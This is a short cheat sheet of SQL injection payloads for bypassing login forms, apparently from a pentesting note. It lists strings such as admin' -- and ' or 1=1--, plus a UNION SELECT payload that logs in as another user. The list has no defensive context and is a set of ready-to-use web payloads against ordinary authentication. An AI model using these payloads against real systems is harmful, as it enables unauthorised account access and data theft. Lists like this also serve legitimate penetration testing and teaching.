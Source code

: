 - `admin' --`
- `admin' #`
- `admin'/*`
- `' or 1=1--`
- `' or 1=1#`
- `' or 1=1/*`
- `') or '1'='1--`
- `') or ('1'='1--`
- `' or 1=1 -- -`
- `admin' -- -`
- `' or 1=1 order by 2 -- -`
- `' or 1=1 order by 1 desc -- -`
- `' or 1=1 limit 1,1 -- -`

Another trick is to log in as a different user (SM*):  `' UNION SELECT 1, 'anotheruser', 'any string', 1--`